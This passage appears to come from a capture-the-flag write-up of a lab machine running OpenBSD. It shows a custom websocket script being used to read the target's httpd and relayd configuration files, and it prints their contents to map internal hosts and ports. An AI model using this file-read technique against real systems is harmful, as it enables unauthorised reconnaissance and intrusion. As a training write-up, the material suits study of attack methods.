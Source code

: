 
## DNS Hijacking

### relayd

While checking conf files, one interesting file found is httpd server.

* OpenBSD httpd server config file default path is `/etc/httpd.conf`

host/subdomains listening on diffrent local port but we can access them from remote port 80.
```bash
❯ python websocket.py -f -p "/etc/httpd.conf"

server "0.0.0.0" {
	no log
	listen on lo0 port 8000

... [snip] ...

server "employees" {
	no log
	listen on lo0 port 8001

... [snip] ...

server "chat" {
	no log
	listen on lo0 port 8002

... [snip] ...
```

OpenBSD uses [`relayd`](https://man.openbsd.org/relayd.8) for doing this.

* relayd is a daemon to relay and dynamically redirect incoming connections to a target host.
* OpenBSD relayd config file path is `"/etc/relayd.conf"`

```bash
❯ python websocket.py -f -p '/etc/relayd.conf'
table<1>{127.0.0.1}
table<2>{127.0.0.1}
table<3>{127.0.0.1}
table<4>{127.0.0.1}
http protocol web{
	pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
	pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
	match request path "/*" forward to <1>
	match request path "/ws*" forward to <4>
	http websockets
}

table<5>{127.0.0.1}
table<6>{127.0.0.1 127.0.0.2 127.0.0.3 127.0.0.4}
http protocol portal{
	pass request quick path "/" forward to <5>
	pass request quick path "/index.html" forward to <5>
	pass request quick path "/home" forward to <5>
	pass request quick path "/login" forward to <5>
	pass request quick path "/chat" forward to <5>
	pass request quick path "/js/*" forward to <5>
	pass request quick path "/css/*" forward to <5>
	pass request quick path "/fonts/*" forward to <5>
	pass request quick path "/images/*" forward to <5>
	pass request quick path "/favicon.ico" forward to <5>
	pass forward to <6>
	http websockets
```